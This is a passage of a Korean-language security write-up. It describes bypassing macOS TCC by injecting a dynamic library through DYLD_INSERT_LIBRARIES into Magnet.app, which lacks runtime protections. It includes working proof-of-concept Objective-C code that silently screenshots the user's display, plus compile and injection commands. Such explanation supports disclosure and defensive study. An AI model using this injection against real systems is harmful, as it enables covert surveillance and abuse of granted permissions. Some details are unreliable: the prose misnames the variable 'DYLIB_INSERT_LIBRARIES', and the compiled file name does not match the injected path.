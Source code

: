 
앞서 말한 런타임과 관련한 보호 플래그가 하나도 적용되어 있지 않다.


이는 런타임시에 모든 조작이 가능하다 것을 의미하므로 환경 변수를 통한 라이브러리 주입을 통해 TCC 권한을 남용할 수 있다.


### 환경 변수를 통한 라이브러리 주입


Linux기반 운영체제에서 `LD_PRELOAD` 환경 변수를 통해 라이브러리를 주입할 수 있는 것 처럼, MacOS 또한 `DYLIB_INSERT_LIBRARIES` 환경 변수를 통해 라이브러리를 주입시킬 수 있다.


<br>


주입된 라이브러리는 주입한 애플리케이션 컨텍스트 내에서 실행되므로 애플리케이션이 가진 TCC 권한을 상속 받게 된다. 


TCC 매커니즘을 우회해야 하는 공격자 입장에서는 취약한 애플리케이션이 좋은 어택 벡터가 될 수 있다.


<br>



아래는 환경 변수를 통해 악성 라이브러리를 취약한 애플리케이션 컨텍스트에서 실행하여 손쉬운 사용 TCC 권한을 남용하는 예시를 설명한다.

1. 악성 라이브러리 작성

손쉬운 사용 권한을 탈취하여 사용자의 현재 화면을 캡처한 후 `/tmp/screenshot.png`에 저장하는 코드이다.


{% raw %}
```objective-c
#include <Foundation/Foundation.h>
#include <AppKit/AppKit.h>

__attribute__((constructor)) static void pwn() {
	[NSThread sleepForTimeInterval:3.000];

	CGImageRef screenshot = CGWindowListCreateImage(CGRectInfinite, kCGWindowListOptionOnScreenOnly, kCGNullWindowID, kCGWindowImageDefault);
	NSBitmapImageRep *bitmap = [[NSBitmapImageRep alloc] initWithCGImage:screenshot];
	NSData *data = [bitmap representationUsingType:NSBitmapImageFileTypePNG properties:NULL];
	[data writeToFile: @"/tmp/screenshot.png" atomically: NO];
}
```
{% endraw %}

1. 라이브러리 컴파일

{% raw %}
```bash
gcc -dynamiclib -framework Foundation -framework AppKit poc.m -o poc
```
{% endraw %}

1. 악성 라이브러리 주입

{% raw %}
```bash
$ DYLD_INSERT_LIBRARIES=/tmp/poc.dylib /Applications/Magnet.app/Contents/MacOS/Magnet
```
{% endraw %}
